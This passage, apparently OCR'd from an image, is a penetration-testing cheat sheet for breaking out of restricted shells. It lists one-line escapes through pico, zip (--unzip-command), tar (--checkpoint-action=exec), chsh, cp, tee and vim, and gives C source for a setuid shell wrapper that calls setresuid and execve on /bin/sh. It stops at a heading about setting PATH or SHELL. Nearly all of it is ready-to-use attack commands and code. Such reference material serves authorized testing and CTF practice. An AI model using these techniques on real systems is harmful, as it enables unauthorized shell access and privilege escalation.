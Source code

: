 From pico:

# pico -s "/bin/bash"
# /bin/bash <CTRL+T>

From zip:

# zip /tmp/<FILE>.zip /tmp/<FILE> -T --unzip-command="sh -c /bin/bash"

From tar:

# tar cf /dev/null <FILE> --checkpoint=1 --checkpoint-action=exec=/bin/bash

From chsh (authenticated):

/bin/bash

From cp, if we can copy files into existing PATH:

#cp /bin/sh /current_directory; sh

From tee:

# echo "<PAYLOAD>" | tee <FILE>.sh

From vim:

:!/bin/ls -l .b*        <- File Listing

:set shell=/bin/sh
:shell

or

:!/bin/sh

C set UID shell:

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp) {
   setresgid(getegid(), getegid(), getegid());
   setresuid(geteuid(), geteuid(), geteuid());
   
   execve("/bin/sh", argv, envp);
   return 0;
}

If we can set PATH or SHELL variable:
